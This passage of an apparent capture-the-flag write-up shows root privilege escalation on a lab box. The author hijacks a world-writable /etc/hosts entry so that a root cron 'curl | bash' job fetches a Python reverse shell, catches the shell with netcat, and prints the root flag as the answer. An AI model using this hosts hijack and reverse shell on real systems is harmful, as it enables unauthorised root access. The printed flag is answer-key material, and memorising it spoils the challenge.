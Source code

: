 ~~~
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
james@overpass-prod:~$ 
~~~

The script is using curl to get the `buildscript.sh` from the local web server (`overpass.thm` points to `127.0.0.1` in `/etc/hosts`). Hopefully for us, the `/etc/hosts` file is writable:

~~~
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27 02:39 /etc/hosts
~~~

Let's change the IP address from 127.0.0.1 to 10.9.0.54 (your IP) for the `overpass.thm` entry:

~~~
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.9.0.54 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
~~~

Now, let's create a local reverse shell that we will save in the location requested by the cron job:

~~~
unknown@kali:/data/tmp/files$ cat downloads/src/buildscript.sh 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.54",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Start your local web server and wait for the cron job to get the content of the file:

~~~
unknown@kali:/data/tmp/files$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.150.228 - - [19/Aug/2020 17:06:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
~~~

In another window, we have a netcat listener running:

~~~
unknown@kali:/data/tmp/files/downloads/src$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.9.0.54] from (UNKNOWN) [10.10.150.228] 57212
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
buildStatus
builds
go
root.txt
src
# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
~~~

Answer: `thm{7f336f8c359dbac18d54fdd64ea753bb}`